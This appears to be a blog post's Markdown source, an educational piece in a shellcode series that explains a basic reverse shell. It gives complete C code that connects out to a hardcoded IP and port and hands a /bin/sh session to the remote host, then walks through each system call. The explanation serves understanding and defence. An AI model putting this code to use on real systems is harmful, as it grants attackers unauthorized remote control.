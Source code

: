 ```yaml
---
layout: post
title: "Understanding Shellcode: The Reverse Shell"
category: Security
date: 2018-10-30
series: "Understanding Shellcode"
tags:
  - Shellcode
  - Security
---
```

A recent conversation with a coworker inspired me to start putting
together a series of blog posts to examine what it is that shellcode does.  In
the first installment, I'll dissect the basic reverse shell.

First, a couple of reminders: shellcode is the machine code that is injected
into the flow of a program as the result of an exploit.  It generally must be
position independent as you can't usually control where it will be loaded in
memory.  A reverse shell initiates a TCP connection from the compromised host
back to a host under the control of the attacker.  It then launches a shell with
which the attacker can interact.

<!--more-->

## Reverse Shell in C ##

Let's examine a basic reverse shell in C.  Error handling is elided, both for
the space in this post, and because most shellcode is not going to have error
handling.

```
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

void reverse_shell() {
  /* Allocate a socket for IPv4/TCP (1) */
  int sock = socket(AF_INET, SOCK_STREAM, 0);

  /* Setup the connection structure. (2) */
  struct sockaddr_in sin;
  sin.sin_family = AF_INET;
  sin.sin_port = htons(4444);

  /* Parse the IP address (3) */
  inet_pton(AF_INET, "192.168.22.33", &sin.sin_addr.s_addr);

  /* Connect to the remote host (4) */
  connect(sock, (struct sockaddr *)&sin, sizeof(struct sockaddr_in));

  /* Duplicate the socket to STDIO (5) */
  dup2(sock, STDIN_FILENO);
  dup2(sock, STDOUT_FILENO);
  dup2(sock, STDERR_FILENO);

  /* Setup and execute a shell. (6) */
  char *argv[] = {"/bin/sh", NULL};
  execve("/bin/sh", argv, NULL);
}
```

## Reverse Shell Steps ##

As can be seen, there are approximately 6 steps in setting up a reverse shell.
Once they are understood, this can be converted to proper shellcode.

1. First we need to allocate a socket structure in the kernel with a call to
   `socket`.  This is a C library wrapper for a system call by the name
   `socketcall`.  (All socket system calls are done through this single system
   call.) It needs to know the address family (`AF_INET` for IPv4) and the
   socket type (`SOCK_STREAM` for TCP, it would be `SOCK_DGRAM` for UDP).  This
   returns an integer that is a file descriptor for the socket.
2. Next, we need to setup a `struct sockaddr_in`, which includes the family
   (`AF_INET` again), and the port number in network byte order (big-endian).
3. We also need to put the IP address into the structure.  `inet_pton` can parse
   a string form into the struct.  In a `struct sockaddr_in`, this is a 4 byte
   value, again in network byte order.
4. We now have the full structure setup, so we can initiate a connection to the
   remote host using the already-created socket.  This is done with a call to
   `connect`.  Like `socket`, this is a wrapper for the `socketcall` system
   call.
5. We want the shell to use our socket when it is handling standard input/output
   (`stdio`) functions.  To do this, we duplicate the file descriptor from the
   socket to each of `STDIN`, `STDOUT`, `STDERR`.  Like so many, `dup2()` is a
   thin wrapper around a system call.
6. Finally, we setup the arguments for our shell, and launch it with `execve`,
   yet another system call.  This one will replace the current binary image with
   the targeted binary (`/bin/sh`) and then execute it from the entry point.  It
   will execute with its standard input, output, and error connected to the
   network socket.
